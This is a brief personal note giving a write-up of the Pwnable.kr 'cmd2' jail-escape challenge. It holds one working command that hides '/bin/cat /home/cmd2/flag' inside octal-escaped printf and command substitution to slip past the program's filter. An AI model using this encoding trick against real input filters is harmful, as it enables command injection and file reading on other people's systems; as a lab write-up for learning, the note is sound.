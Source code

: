 ```yaml
---
title: Pwnable.kr Cmd2
date: 2022-08-20T19:28:06+02:00
tags: ['cs/security']
aliases: ['']
---
```


Similar to [[notes/Pwnable.kr Cmd1 | cmd1]], this one is another jail escape. I am not
going to go too much into details, but we can run the following:

```sh
./cmd2 '$(printf "\057\142\151\156\057\143\141\164\040\057\150\157\155\145\057\143\155\144\062\057\146\154\141\147")'
```

Which executes the command below:

```sh
/bin/cat /home/cmd2/flag
```

> [!info] Take note

> The reason we use `\<octal>` instead of `\x<hex>` is because the first one is
> more standard we the cmd is run in dash shell.

